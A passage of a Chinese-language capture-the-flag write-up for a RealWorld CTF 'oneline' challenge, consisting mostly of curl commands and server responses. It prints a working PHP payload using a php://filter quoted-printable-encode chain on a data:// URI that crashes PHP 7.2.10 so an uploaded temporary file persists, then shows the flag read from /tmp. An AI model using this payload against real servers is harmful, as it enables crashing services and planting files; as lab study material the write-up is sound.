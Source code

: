 官方环境, 如期出现500.

```
qianfa@qianfa:~/Desktop/realworldfinal/oneline$ curl-v -F "file=@flag" "http.0.0.1:8080?orange=php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA87654321AAAAAAAAAAAAAAAAAAAAAAAA"
* Rebuilt URL to: http://127.0.0.1:8080/?orange=php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA87654321AAAAAAAAAAAAAAAAAAAAAAAA
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> POST /?orange=php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA87654321AAAAAAAAAAAAAAAAAAAAAAAA HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.47.0
> Accept: */*
> Content-Length: 208
> Expect: 100-continue
> Content-Type: multipart/form-data; boundary=------------------------d4a24c8a4605c592
> 
< HTTP/1.1 100 Continue
* HTTP 1.0, assume close after body
< HTTP/1.0 500 Internal Server Error
< Date: Wed, 05 Dec 2018 13:49:03 GMT
< Server: Apache/2.4.29 (Ubuntu)
< Content-Length: 0
< Connection: close
< Content-Type: text/html; charset=UTF-8
< 
* Closing connection 0

```

官方环境，使用最终payload:

```
qianfa@qianfa:~/Desktop/realworldfinal/oneline$ curl -v -F "file=@flag" "http://127.0.0.1:8080?orange=php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA"
* Rebuilt URL to: http://127.0.0.1:8080/?orange=php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> POST /?orange=php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.47.0
> Accept: */*
> Content-Length: 208
> Expect: 100-continue
> Content-Type: multipart/form-data; boundary=------------------------5385e7ea169feb1a
> 
< HTTP/1.1 100 Continue
* Empty reply from server
* Connection #0 to host 127.0.0.1 left intact
curl: (52) Empty reply from server

结果:
root@a2aa31afc385:/tmp# php -v
PHP 7.2.10-0ubuntu0.18.04.1 (cli) (built: Sep 13 2018 13:45:02) ( NTS )
Copyright (c) 1997-2018 The PHP Group
Zend Engine v3.2.0, Copyright (c) 1998-2018 Zend Technologies
    with Zend OPcache v7.2.10-0ubuntu0.18.04.1, Copyright (c) 1999-2018, by Zend Technologies
root@a2aa31afc385:/tmp# cat phpul3j1f 
flag{afsdf}
```
